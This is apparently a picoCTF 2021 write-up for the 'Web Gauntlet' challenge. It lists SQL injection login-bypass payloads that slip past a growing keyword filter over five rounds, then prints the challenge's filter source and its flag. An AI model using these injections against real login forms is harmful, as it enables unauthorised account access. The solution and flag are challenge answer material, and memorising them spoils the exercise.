 # Web Gauntlet

## Information

- picoCTF 2021
- Web Exploitation
- 170 Points

## Description

Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:44979/ http://jupiter.challenges.picoctf.org:44979/filter.php

## Hints

1. You are not allowed to login with valid credentials.

2. Write down the injections you use in case you lose your progress.

3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.

4. sqlite

5. If your cookie keeps getting reset, try using a private browser window

## Solution

Visting http://mercury.picoctf.net:44979/ gives us a sign in form. We have to complete five rounds before we can get our flag.

![initial](images/initial.PNG)

In `filter.php`, we can see what the sign in form filters for each round.

### Round 1

For round 1, `filter.php` says the following is filtered.

```
Round1: or
```

So the username for this round is `admin'--` and the password is any string since `--` signifies a comment in SQL.

### Round 2

For round 2, `filter.php` says the following is filtered.

```
Round2: or and like = --
```

So the username for this round is `admin'/*` and the password is `*//*` since `/* comment */` is an alternative syntax for comments in SQLite.

### Round 3

For round 3, `filter.php` says the following is filtered.

```
Round3: or and = like > < --
```

We can use the same username and password here since it does not filter `/*` and `*/`.

### Round 4

For round 4, `filter.php` says the following is filtered.

```
Round4: or and = like > < -- admin
```

Since `admin` is now filtered we need to use the concatenate operation in SQLite which is `||`. So the username for this round is `ad'||'min'/*` and the password is `*//*`.

### Round 5

For round 5, `filter.php` says the following is filtered.

```
Round5: or and = like > < -- union admin
```

We can use the same username and password for this round as we did for round 4.

### Finished

Once you've completed all rounds, go to `filter.php` and there, php code will be shown and the flag will be at the bottom.

```php
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}
?>
```

## Flag

// picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}
